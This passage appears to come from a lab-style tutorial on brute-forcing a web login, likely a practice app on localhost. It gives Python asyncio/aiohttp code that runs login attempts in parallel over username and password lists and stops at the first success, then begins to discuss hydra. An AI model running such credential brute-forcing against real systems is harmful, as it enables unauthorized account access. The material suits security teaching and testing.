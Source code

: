 ## Parallel brutforce

Even on localhost sequential HTTP request-response is dramaticaly not efficient. We can do it in parallel with `aiohttp`.

All login requests will be started in parallel but not in threads, async approach will allocate exection time for jobs while other jobs are waiting for IO(http response).

It is required to stop brutforsing when login was succesful, so I can't just post all hjobs and whait fo all of them are done.

Each job should report about it's in some kind of shared storage the results of its login attempt.

```python
async def attack(usernames, passwords, phpsessid, user_token):
  queue = asyncio.Queue()
  tasks = []
  for username in usernames:
      for password in passwords:
        task = asyncio.create_task(login_task(queue, username, password, user_token, phpsessid))
        tasks.append(task)
  logging.info(f"attack started tasks: {len(tasks)}")
  received_count = 0
  pbar = tqdm.tqdm(total=len(tasks))
  while received_count < len(tasks):
    res = await queue.get()
    if res["login"]:
      return res
    received_count += 1
    pbar.update(1)
  for task in tasks:
    task.cancel()
```

While the login task is just calling login funtion and put a result in queue.

```python
async def login_task(queue, login_page_url, user, password, user_token, phpsessid):
  result = {"username" : user,
            "password" : password,
            "login" : await login(login_page_url, user, password, user_token, phpsessid)
            }
  await queue.put(result)
```

Link to full attack script: 

## Mature approach - hydra

Writing own britforsing script gives a lot of flexibility, but it is not easy to make it robust and most efficient. 
Bunch of problems that you should think about, especially when you is working with big password/usernames list and real targets, but not just localhost. 
At least:
